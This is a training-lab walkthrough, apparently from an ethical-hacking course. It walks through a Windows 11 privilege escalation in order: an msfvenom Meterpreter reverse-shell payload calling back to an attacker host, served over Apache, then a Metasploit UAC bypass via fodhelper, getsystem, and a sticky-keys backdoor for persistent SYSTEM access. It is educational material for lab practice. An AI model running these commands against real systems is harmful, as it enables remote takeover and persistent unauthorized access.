 
## Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys


**Parrot Security** machine and login with **attacker/toor**. Open a **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**)

Now, run **cd** command to jump to the root directory

Run the command **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe**
  
In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access permission. So, we will use the same directory or shared folder (share) to share Windows.exe with the victim machine.

To create a new directory to share the **Windows.exe** file with the target machine and provide the permissions, use the below commands:

- Run **mkdir /var/www/html/share** command to create a shared folder
- Run **chmod -R 755 /var/www/html/share** command
- Run **chown -R www-data:www-data /var/www/html/share** command

Copy the payload into the shared folder by executing **cp /home/attacker/Desktop/Windows.exe /var/www/html/share/** command

Start the Apache server by executing **service apache2 start** command

Run **msfconsole** command in the terminal window to launch Metasploit Framework
 
In Metasploit type **use exploit/multi/handler** and press **Enter**

Now, type **set payload windows/meterpreter/reverse_tcp** and press **Enter**

Type **set lhost 10.10.1.13** and press **Enter** to set lhost

Type **set lport 444** and press **Enter** to set lport

Now, type **run** in the Metasploit console and press **Enter**

**Windows 11** machine, click [Ctrl+Alt+Delete](https://labclient.labondemand.com/Instructions/b23f3920-d498-4113-9bbb-12cd16f9c53f#) to activate the machine and login

Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type **http://10.10.1.13/share** and press **Enter**. As soon as you press enter, it will display the shared folder contents

Click on **Windows.exe** to download the file
  
Navigate to the **Downloads** folder and double-click the **Windows.exe** file

Leave the **Windows 11** machine running and click [Parrot Security](https://labclient.labondemand.com/Instructions/b23f3920-d498-4113-9bbb-12cd16f9c53f#) to switch to the **Parrot Security** machine

The Meterpreter session has successfully been opened, as shown in the screenshot

Type **sysinfo** and press **Enter**. Issuing this command displays target machine information such as computer name, OS, and domain

Type **getuid** and press **Enter**, to display current user ID

Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine

Type **background** and press **Enter**, to background the current session

Type **search bypassuac** and press **Enter**, to get the list of bypassuac modules
In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit

In the terminal window, type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**

Type **set session 1** and press **Enter**
  
Type **show options** in the meterpreter console and press **Enter**

To set the **LHOST** option, type **set LHOST 10.10.1.13** and press **Enter**

To set the **TARGET** option, type **set TARGET 0** and press **Enter** (here, 0 indicates nothing, but the Exploit Target ID)

Type **exploit** and press **Enter** to begin the exploit on **Windows 11** machine

The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine
  
Type **getsystem -t 1** and press **Enter** to elevate privileges

Now, type **getuid** and press **Enter**. The meterpreter session is now running with system privileges

Type **background** and press **Enter** to background the current session

Type **use post/windows/manage/sticky_keys** and press **Enter**

Now type **sessions -i*** and press **Enter** to list the sessions in meterpreter

In the console type **set session 2** to set the privileged session as the current session
  
In the console type **exploit** and press **Enter**, to begin the exploit

to switch to **Windows 11** machine and sign out from the **Admin** account and sign into **Martin** account using **apple** as password

Martin is a user account without any admin privileges, lock the system and from the lock screen press **Shift** key **5** times, this will open a command prompt on the lock screen with System privileges instead of sticky keys error window

In the Command Prompt window, type **whoami** and press **Enter**

We can see that we have successfully got a persistent System level access to the target system by exploiting sticky keys

